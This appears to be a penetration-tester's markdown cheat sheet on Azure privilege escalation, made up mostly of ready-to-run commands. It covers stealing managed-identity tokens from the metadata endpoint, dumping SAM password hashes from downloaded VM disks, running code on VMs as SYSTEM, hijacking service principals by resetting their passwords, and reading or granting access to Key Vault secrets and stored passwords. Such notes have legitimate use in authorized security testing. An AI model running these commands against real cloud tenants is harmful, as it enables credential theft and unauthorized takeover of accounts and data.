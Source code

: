 # Privilege Escalation
## Index
* [Getting credetials](#Getting-credentials)
* [Virtual Machines](#Virtual-machines)
  * [VM is managed identity](#VM-is-managed-identity) 
  * [Read password hashes from virtual machine](#Read-password-hashes-from-virtual-machine)
  * [Execute commands](#Execute-commands)
  * [Reset password from VM](#Reset-password-from-VM)
* [Ad user attributes](#Ad-user-attributes)
* [Service Principal Hijacking](#Service-Principal-Hijacking)
* [Break glass accounts](#Break-glass-accounts)
* [Azure key vaults](#Azure-key-vaults)
* [Azure Container Registry dump](#Azure-Container-Registry-dump)

## Getting credentials
[Check getting credentials](post-exploitation.md#Getting-credentials)

## Virtual machines
### VM is managed identity
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/
- If you have access to a VM it might actually have more privileges than your user in Azure
- VM can auth to Azure with a Managed Identity by requesting Oauth token from Azure Metadata Service URL at http://169.254.169.254/metadata/identity/oauth2/token
- RDP to VM, request token, and connect to Azure using AZ cli or Az PowerShell

#### Login on VM as managed idenity
```
az login –identity
```

#### List permissions of current subscription
- May have more permissions then the user
```
az role assignment list -–assignee ((az account list | ConvertFrom-Json).id)
```

#### If no AZ module can request token manually 
- Then use Azure REST APIs with the token
```
Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
```

### Read password hashes from virtual machine
- Download the disk https://docs.microsoft.com/en-us/azure/virtual-machines/windows/download-vhd#generate-download-url

#### Check the disks
```
sudo fdisk –l
```

#### Mount the disk
```
sudo mkdir /media/mounted-drive
sudo mount /dev/sdc4 /media/mounted-drive/
```

#### Navigate to the windows snapshot
```
cd /media/mounted-drive/
ls
```

#### Copy system/SAM and dump hashes
```
cd /media/mounted-drive/Windows/System32/config/
cp SAM SYSTEM ~/
cd ~/
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### Execute commands
- Requires the "Virtual Machine Contributor" role
- Run as default by SYSTEM or root
- Commandid =  RunPowerShellScript or RunShellScript

```
Invoke-AzVMRunCommand -ResourceGroupName <resource group name> -VMName <VM name> -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

### Reset password from VM
- Can be done from Azure portal
- This may be a quick way to gain access and avoid PowerShell alerting
- Be careful though as scripts/services may be using the credential

## Ad user attributes
- User attributes and sensitive information

#### Request all attributes and look for password string
- Might also use token, secret, pass etc.
```
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

## Service Principal Hijacking
- There are over 200 default service principals in an O365 tenant
- None of them are listed in the Azure GUI portal
- An “Application Administrator” can change passwords or certificates for service principals… even the default ones
- Some interesting permissions as identified by Dirk-Jan Mollema: https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- Application Admin can’t add users to groups but can change the password of a service principal that can add users to groups.

#### List service principals as Application Administrator
```
Get-AzureAdServicePrincipal
```

#### Change password of service prinicpal
```
$spn = Get-AzureADServicePrincipal -SearchString "<SPN DISPLAY NAME>"
New-AzureADServicePrincipalPasswordCredential -objectid $spn.ObjectId -EndDate "12-31-2099 12:00:00" -StartDate "6-8-2018 13:37:00" -Value "<PASSWORD>"
```

- One way to quickly determine what service principals might be useful would be list out all roles for each service
- Not easily done through PowerShell Cmdlets
- Change password for a service principal
- Use cred to auth with Microsoft Graph scope
- Brute force all Object ID’s against Microsoft Graph endpoint that responds with role information
- Web request for auth to Microsoft Graph
```
POST /<tenant ID>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
client_id=<application 
ID>&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&client_secret=
<service principal password>&grant_type=client_credentials
```
- A bearer token should be returned if auth was successful
- Then use the bearer token with the following request setting the service principal ObjectID against graph.windows.net
```
GET /beta/servicePrincipals/<Service Principal ObjectID> HTTP/1.1

Host: graph.microsoft.com
Authorization: Bearer <JWT Bearer Token Value>
```
- Response contains role information
- Next, something like Burp’s Intruder could be used to brute force each service principal ID against the Microsoft Graph endpoint URL
```
$apps = Get-AzADServicePrincipal
$apps.Id
```
- Now we can choose what level of access we want and change the pass for that service principal

## Break glass accounts
- Another PrivEsc target is Azure “Break Glass” administrative accounts
- Microsoft recommends not setting up MFA for them
- Two accounts are usually recommended to be set up
- If you can determine which ones are the break glass they can be good targets

## Azure key vaults
#### List key vaults which current user has view access too
```
az keyvault list --query '[].name' --output tsv
```

#### Get URI of keyvault
```
az keyvault secret list --vault-name <KEYVAULT> --query '[].id' --output tsv
```

#### Read cleartext secrets
```
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Give access if contributer role
```
az keyvault set-policy --name <KEYVAULT NAME> --upn <CONTRIBUTER USERNAME> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

#### Powerzure get keyvault contents
```
Get-AzureKeyVaultContent
```

## Azure Container Registry dump
- https://github.com/NetSPI/MicroBurst 
```
Get-AzPasswords
Get-AzACR
```

